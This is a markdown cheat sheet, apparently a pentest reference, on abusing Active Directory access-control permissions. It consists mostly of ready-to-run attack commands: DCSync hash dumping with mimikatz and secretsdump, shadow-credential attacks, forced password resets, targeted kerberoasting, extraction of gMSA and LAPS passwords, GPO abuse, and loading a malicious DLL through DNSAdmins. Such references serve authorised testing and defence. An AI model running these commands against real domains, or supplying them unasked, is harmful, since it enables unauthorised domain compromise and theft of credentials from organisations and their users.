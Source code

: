 # ACLs/ACEs permissions

## Dcsync >>> Domain Admin || Lateral move || Crack hash
- Administrators, Domain Admins, or Enterprise Admins as well as Domain Controller computer accounts
- `mimikatz lsadump::dcsync /domain:<target_domain> /user:<target_domain>\administrator`
- `secretsdump.py '<domain>'/'<user>':'<password>'@'<domain_controller>'`

## can change msDS-KeyCredentialLInk (Generic Write) + ADCS >>> PassTheCertificate
- Shadow Credentials
  - `certipy shadow auto '-u <user>@<domain>' -p <password> -account '<target_account>'`
  - `pywhisker.py -d "FQDN_DOMAIN" -u "user1" -p "CERTIFICATE_PASSWORD" --target "TARGET_SAMNAME" --action "list"`

## On Group
- GenericAll/GenericWrite/Self/Add Extended Rights
  - Add member to the group
- Write Owner
  - Grant Ownership
- WriteDACL + WriteOwner
  - Grant rights
    - Give yourself generic all

## On Computer
- GenericAll / GenericWrite
  - msDs-AllowedToActOnBehalf >>> RBCD
  - add Key Credentials >>> shadow credentials

## On User
- GenericAll / GenericWrite
  - Change password
    - `net user <user> <password> /domain` >>> User with clear text pass
  - add SPN (target kerberoasting)
    - `targetedKerberoast.py -d <domain> -u <user> -p <pass>` >>> Hash found (TGS)
  - add key credentials >>> shadow credentials
  - login script >>> Access
- ForceChangePassword
  - `net user <user> <password> /domain` >>> User with clear text pass

## On OU
- Write Dacl
  - ACE Inheritance
    - Grant rights
- GenericAll / GenericWrite / Manage Group Policy Links
  - `OUned.py --config config.ini`

## ReadGMSAPassword
- `gMSADumper.py -u '<user>' -p '<password>' -d '<domain>'`
- `nxc ldap <ip> -u <user> -p <pass> --gmsa`
- `ldeep ldap -u <user> -p <password> -d <domain> -s ldaps://<dc_ip> gmsa`

## Get laps passwords
- who can read LAPS
  - `MATCH p=(g:Group)-[:ReadLAPSPassword]->(c:Computer) RETURN p`
- Read LAPS >>> Admin
  - `Get-LapsADPassword -DomainController <ip_dc> -Credential <domain>\<login> | Format-Table -AutoSize`
  - `foreach ($objResult in $colResults){$objComputer = $objResult.Properties; $objComputer.name|where {$objcomputer.name -ne $env:computername}|%{foreach-object {Get-AdmPwdPassword -ComputerName $_}}}`
  - `nxc ldap <dc_ip> -d <domain> -u <user> -p <password> --module laps`
  - `msf> use post/windows/gather/credentials/enum_laps`

## GPO
- `MATCH (gr:Group), (gp:GPO), p=((gr)-[:GenericWrite]->(gp)) RETURN p`
- SID of principals that can create new GPOs in the domain
  - `Get-DomainObjectAcl -SearchBase "CN=Policies,CN=System,DC=blah,DC=com" -ResolveGUIDs  | ? { $_.ObjectAceType -eq "Group-Policy-Container" } | select ObjectDN, ActiveDirectoryRights, SecurityIdentifier | fl`
- Return the principals that can write to the GP-Link attribute on OUs
  - `Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ObjectAceType -eq "GP-Link" -and $_.ActiveDirectoryRights -match "WriteProperty" } | select ObjectDN, SecurityIdentifier | fl`
- Generic Write on  GPO
  - Abuse GPO >>> ACCESS

## DNS Admin
- DNSadmins abuse (CVE-2021-40469) @CVE@ >>> Admin
  - `dnscmd.exe /config /serverlevelplugindll <\\path\to\dll> # need a dnsadmin user`
  - `sc \\DNSServer stop dns sc \\DNSServer start dns`
